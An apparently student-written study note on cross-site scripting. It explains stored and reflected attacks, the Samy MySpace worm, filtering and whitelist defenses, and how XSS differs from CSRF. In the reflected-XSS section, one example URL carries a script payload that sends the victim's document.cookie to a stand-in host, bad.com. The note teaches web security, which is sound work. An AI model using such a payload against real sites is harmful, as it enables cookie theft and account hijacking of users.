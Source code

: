 # Cross-site Scripting (XSS)

A technique hackers use to get around the same-origin policy (SOP).
An attacker can construct a malicious script which can trick a user's browser into thinking the script came from a trusted origin. This works by lettings the trusted website send the malicious script to the user's browser. The browser will view the script as coming from the same origin, because it does.

## Stored (or "persistent") XSS attack

* Attacker leaves their script on the bank.com server
* Server sends script to browser
* Browser executes it with the same origin as the bank.com server.

__Key__: Server fails to ensure that the content uploaded to the page does not contain embedded scripts.

### Samy

The most notable example is the Samy worm on MySpace.  
Samy uploaded a malicious script onto it's own MySpace page. User who later visited Samy's page ran the program. This program made them send a friend request to Samy and display the same malicious message on their own profile. As a result making other people run the same script.  
In doing this, Samy made 1000000 friends in 20 hours & took MySpace down for a weekend.

## Reflected XSS attack

* User visits bad.com
* Bad.com sends malicious page to the user (url sends usr to bank.com but has some script attached to it)
* User follows the link to bank.org  
* Bank.com echoes the script back to you in its response
* Your browser executes the script in the response within the same origin as bank.org.

__Key__: Find instances where a web server will echo the user input back in to the HTML response.  
example:  

``` url
http://victim.com/search.php?term=<script> window.open('http://bad.com/steal?c=" + document.cookie) </script>
```

## XSS Defenses

### Filter/Escape

Typically, servers sanitizes the content provided by the user. (remove html tags)

__Problems__:

* The biggest problem is finding the malicious content. There are multiple ways to introduce js to a webpage (CSS tags, XML-encoded data)
* Browsers usually parse broken HTML tags. This can be exploited too. (Samy figured out IE permits JS tag to be split across multiple lines, this bypassed the MySpace filters and infected IE users)

### White list

Sites that do allow some tags can check if content only creates the tags that are whitelisted.

Another solution for sites that allow users to style is to use a language like markdown instead of html with tags.

## XSS vs CSRF

* XSS exploits the trust a client browser has in data sent from the legitimate website.
* CSRF exploits the trust the legitimate website has in data sent from the client's browser.

## Key Idea

Verify, then trust
